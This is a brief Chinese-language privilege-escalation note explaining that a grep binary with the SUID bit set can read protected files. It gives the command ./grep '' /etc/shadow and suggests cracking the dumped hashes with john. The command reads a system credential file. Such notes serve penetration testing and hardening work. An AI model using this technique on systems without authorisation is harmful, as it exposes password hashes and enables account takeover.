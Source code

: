 # grep

`grep` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
./grep '' /etc/shadow
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/grep-1.png)

然后使用`john` 对 hash 进行破解.
